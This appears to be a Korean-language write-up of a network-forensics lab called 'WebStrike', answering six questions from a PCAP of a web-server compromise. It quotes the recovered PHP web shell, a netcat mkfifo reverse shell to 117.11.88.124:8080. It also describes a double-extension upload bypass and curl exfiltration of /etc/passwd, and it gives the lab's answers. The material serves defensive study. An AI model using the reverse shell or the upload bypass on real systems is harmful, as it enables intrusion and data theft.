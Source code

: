 # WebStrike
## 목차

[Questions 1](#q1)

[Questions 2](#q2)

[Questions 3](#q3)

[Questions 4](#q4)

[Questions 5](#q5)


# Scenario
A suspicious file was identified on a company web server, raising alarms within the intranet. The Development team flagged the anomaly, suspecting potential malicious activity. To address the issue, the network team captured critical network traffic and prepared a PCAP file for review.

Your task is to analyze the provided PCAP file to uncover how the file appeared and determine the extent of any unauthorized activity.

# Questions

## Q1
Identifying the geographical origin of the attack facilitates the implementation of geo-blocking measures and the analysis of threat intelligence. From which city did the attack originate?

💡 Note: The lab machines do not have internet access. To look up the IP address and complete this step, use an IP geolocation service on your local computer outside the lab environment.

### Answer
tianjin

### 분석
제공된 pcap 파일을 Wireshark를 이용하여 분석한다.

![WebStrike_Q1_1.png](./IMG/WebStrike_Q1_1.png)

Wireshark를 이용해 분석해본 결과 파일 업로드 공격으로 의심되는 로그를 발견할 수 있었다. (php 파일 업로드)

해당 로그의 출발지 ip 주소는 117.11.88.124로 ip를 검색해보면 문제에서 요구하는 공격이 발생한 도시를 확인할 수 있다.

![WebStrike_Q1_2.png](./IMG/WebStrike_Q1_2.png)

## Q2
Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's Full User-Agent?

### Answer
Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

### 분석

![WebStrike_Q2_2.png](./IMG/WebStrike_Q2_1.png)

Q1 에서 확인했던 POST 요청을 보면 User-Agent를 확인할 수 있다.

클라이언트가 HTTP를 통해 어떤 요청을 보내면 HTTP 헤더에 사용자 IP 주소와 기기 정보인 User-Agent가 담기게 된다.

## Q3
We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?

### Answer
image.jpg.php

### 분석
![WebStrike_Q3_1.png](./IMG/WebStrike_Q3_1.png)
![WebStrike_Q3_2.png](./IMG/WebStrike_Q3_2.png)
첫 번째 공격 시도에서 image.php 라는 웹 쉘 업로드를 시도했으나 실패했다. (Invalid file format, 서버측 유효성 검사를 나타내는 오류 메세지)

![WebStrike_Q3_3.png](./IMG/WebStrike_Q3_3.png)
![WebStrike_Q3_4.png](./IMG/WebStrike_Q3_4.png)
두 번째 공격 시도에서 파일명을 image.jpg.php로 변경한 후 업로드 하여 성공했다. (서버의 필터링 매커니즘 우회)

## Q4
Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?

### Answer
/reviews/uploads/

### 분석
![WebStrike_Q4_1.png](./IMG/WebStrike_Q4_1.png)

/admin/uploads 시도 → 404 not found

/uploads 시도 → 404 not found

/admin/ 시도 → 404 not found

![WebStrike_Q4_2.png](./IMG/WebStrike_Q4_2.png)

/reviews/uploads 시도 → 301 moved permanetly (/reviews/uploads/ 디렉터리로 리다이렉션)

![WebStrike_Q4_3.png](./IMG/WebStrike_Q4_3.png)

/reviews/uploads/ → 최종 성공

## Q5
Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?

### Answer
8080

### 분석

공격자의 웹 쉘 실행

![WebStrike_Q5_1.png](./IMG/WebStrike_Q5_1.png)

웹 쉘 실행 후 피해를 입은 ip 주소에서 공격자의 8080 포트로 먼저 접속이 되는걸 보면 리버스 쉘로 보임

![WebStrike_Q5_1.png](./IMG/WebStrike_Q5_2.png)

사용된 웹 쉘을 확인해 보자.
netcat을 이용해서 서버가 117.11.88.124 주소의 8080 포트로 접속하여 쉘을 열게된다.

```
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp /f|/bin/sh -i 2> &1|nc 117.11.88.124 8080 >/tmp/f "); ?>
```

## Q6
Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?

### Answer
passwd

### 분석

![WebStrike_Q6_1.png](./IMG/WebStrike_Q6_1.png)

웹 쉘을 이용하여 pwd, ls /home, cat /etc/paswwd 등의 명령어를 실행한다.

curl 명령어를 이용해 passwd 파일을 탈취해가는 것을 확인할 수 있다.
![WebStrike_Q6_2.png](./IMG/WebStrike_Q6_2.png)

8080 → 54448 은 공격자가 서버로 보내는 명령이고, 54448 → 8080은 서버가 공격자에게 보내는 값이다.

# Write-up 비교 & 정리
와이어 샤크에서 마우스 우클릭 후 Follow → HTTP Stream을 클릭하면 HTTP 패킷의 스트림을 확인할 수 있다.

HTTP Stream: HTTP 프로토콜을 통해 데이터를 연속적으로 전송하는 방식

Q6에서 write-up은 필터링을 이용했는데 방법은 다음과 같다.

``(tcp.port==8080)&&(ip.src==24.49.63.79)``

이 필터링은 피해자 서버 24.49.63.79에서 공격자의 포트인 8080 로 가는 아웃바운드 트래픽을 걸러낼 수 있게 된다. (반대는 인바운드 트래픽)

![tmp_1.png](./IMG/tmp_1.png)